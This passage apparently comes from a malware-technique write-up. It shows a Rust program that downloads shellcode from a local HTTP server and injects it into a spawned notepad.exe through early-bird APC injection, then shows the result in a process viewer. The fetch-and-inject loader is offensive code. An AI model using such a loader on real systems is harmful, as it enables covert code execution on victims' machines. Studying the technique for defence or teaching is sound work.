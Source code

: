 ### Main

Now to solve the challenge we just need to connect both parts. In this case we used `notepad.exe` as the process to spawn and the `calc.exe` as the process to be injected. 

``` rust
mod networking;  
mod injections;  
  
use crate::networking::http;  
use crate::injections::early_bird_apc;  
  
#[tokio::main]  
async fn main() {  
    let url = "http://localhost:8000/shellcode.bin";  
    let target_process = "notepad.exe";  
  
    let shellcode = match http::fetch_shellcode(url).await {  
        Ok(body_bytes) => body_bytes,  
        Err(e) => {  
            eprintln!("Error downloading shellcode: {}", e);  
            return;  
        }  
    };  
    println!("[#] Shellcode downloaded");  
  
    early_bird_apc::run(target_process, &shellcode);  
}
```

## Result 

Here we can see the execution parents of the spawned process. The blue color indicates that the process is in debug state:

![process_explorer_1.png](/assets/img/posts/malware/APC/process_explorer_1.png)
_System Informer: Process Tree_

In the following image we can see the memory section of the process after the shellcode is written: